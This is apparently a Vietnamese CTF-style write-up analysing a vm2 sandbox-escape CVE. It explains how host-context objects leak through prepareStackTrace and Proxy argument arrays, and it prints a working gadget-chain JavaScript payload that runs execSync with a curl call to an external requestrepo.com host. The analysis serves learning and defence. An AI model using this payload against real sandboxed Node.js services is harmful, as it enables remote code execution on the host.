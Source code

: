 **Phân tích**

CVE này nhìn cũng khá giống CVE trên kia nhưng nó đơn giản hơn

Khi `err.name.toString` được gọi ở  `ErrorPrototypeToString` trong `prepareStackTrace` thì nó lại là trong ngữ cảnh của máy chính

+ `error` của  `prepareStackTrace` không được xử lý qua cơ chế proxy của `vm2` nên nó được gọi thẳng bởi V8

Và còn 1 điều nữa là ở Proxy khi được gọi đến nó có 1 đoạn mã giả như sau

```
7. Let argArray be CreateArrayFromList(argumentsList).
8. Return ? Call(trap, handler, « target, thisArgument, argArray »).
```

Khi `err.name.toString` được gọi thì `CreateArrayFromList()` sẽ tạo ra argArray ở ngữ cảnh của máy chính sau đó được truyền vào `apply(target, thiz, args)`. Vậy ta có thể tiếp cận được `Function` ở máy chính. Từ đó RCE

### Gadgets chaining

Gadgets chaining là một kỹ thuật sử dụng các gadgets (một chuỗi các lệnh nhỏ) để thực hiện kết nối chúng lại với nhau. Ví dụ như việc sử dụng các gadgets để thực hiện một hành động như RCE



Note: Cách này mình đã đọc được từ writeup của các giải amstrong2024 và TSG2023 và tham khảo của anh shin24 link mình sẽ đính kèm bên dưới

```js
toString.constructor.prototype.toString=toString.constructor.prototype.call;
var a=["process.mainModule.require('child_process').execSync('curl http://yh9wz5br.requestrepo.com')"];
a[1]="x";
b={};
b[Symbol.hasInstance]=a.sort;
b["__proto__"]=a;
toString.constructor instanceof b;
```

Giải thích sơ qua về payload này

- Đầu tiên chúng ta sẽ gọi đến function `toString` và gán giá trị của function `call` cho nó

- Tiếp theo ta tạo một mảng a với giá trị đầu tiên là payload mà ta muốn execute (payload này sẽ được thực thi trong anonymous function)

- Tiếp theo ta gán giá trị ``'x'`` cho `a[1]` (sẽ giải thích ở bên dưới vì sao có phần này)

- Sau đó tạo một object b với key là `Symbol.hasInstance` và value là `a.sort`

- Sau đó set `__proto__` của b là a

- Cuối cùng là kiểm tra xem toString.constructor có phải là instance của b (thật ra đoạn này không hẳn là kiểm tra mà là điều kiện để RCE)

Trước khi đi vào phần phân tích sâu hơn, mình sẽ giải thích về cách của instanceof hoạt động

Syntax
